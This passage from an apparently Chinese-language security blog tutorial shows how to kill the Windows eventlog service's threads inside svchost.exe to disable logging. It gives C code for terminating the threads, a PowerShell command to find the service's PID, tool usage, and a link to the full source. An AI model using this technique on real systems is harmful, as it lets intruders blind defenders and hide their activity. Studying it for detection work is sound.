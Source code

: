 测试程序能够通过tid获取相关进程pid，运行如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-25/3-3.png)

至此，我们能够根据提供的线程tid判断出对应的进程pid和服务名称

接着，需要添加判断功能，筛选出eventlog服务，进行下一步操作：结束线程

### 5、结束线程

同结束进程类似，需要提供进程tid，代码如下：

```
void TerminateEventlogThread(DWORD tid)
{
    HANDLE hThread = OpenThread(0x0001,FALSE,tid);
    if(TerminateThread(hThread,0)==0)
        printf("--> Error !\n");
    else
        printf("--> Success !\n");
    CloseHandle(hThread);
}
```

综上，将所有功能集成到一个程序中，使用时只需要提供进程svchost.exe的pid就好

**完整源代码下载地址：**

https://github.com/3gstudent/Windwos-EventLog-Bypass/blob/master/WindowsEventLogBypass.cpp

## 0x03 实际测试
---

获取进程svchost.exe的pid：

`Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId`

获得pid为916

运行WindowsEventLogBypass.exe，添加pid

参数如下：

`WindowsEventLogBypass.exe 916`

实际测试，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-25/4-1.png)

成功结束线程，日志功能失效，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-25/4-2.png)

## 0x04 小结
---
